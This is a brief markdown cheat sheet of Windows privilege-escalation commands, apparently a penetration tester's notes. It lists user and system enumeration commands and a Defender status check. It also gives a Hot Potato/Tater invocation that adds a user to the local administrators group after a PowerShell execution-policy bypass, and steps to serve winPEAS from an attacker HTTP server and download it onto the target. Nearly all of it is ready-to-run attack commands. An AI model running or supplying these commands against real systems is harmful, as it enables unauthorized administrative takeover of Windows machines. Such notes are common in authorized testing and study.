 ### Information Gathering
User Enumeration
- `whoami /priv` Current user privileges
- `net users` List users
- `net user $username` Detail of a specific user
- `qwinsta` Other users logged in

<!-- -->
Misc
- `systeminfo | findstr /B /C:"OS Name" /C:"OS Version"` get OS version
 - `wmic qfe get Caption,Description,HotFixID,InstalledOn` list updates on system
 - `wmic service list brief | findstr  "Running"` installed system thats running
 - `schtasks /query /fo LIST /v` query scheduled tasks
- `driverquery` list drivers installed
- `sc query windefend` is windows Defender on?

<!-- -->

### Hot Potato
cmd:
- `powershell.exe -nop -ep bypass`
<!-- -->

Powershell
- `Import-Module  C:\Users\User\Desktop\Tools\Tater\Tater.ps1`
- `Invoke-Tater -Trigger 1 -Command "net localgroup administrators user /add"`

### Winpeas.exe
Local:
- `python -m SimpleHTTPServer 80`

<!-- -->
Remote: 
- `powershell.exe -command IWR -Uri $IP/winpeas.exe -OutFile winpeas.exe"`
- `winpeas.exe`
 <!-- -->
 
 [Windows Privesc](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)
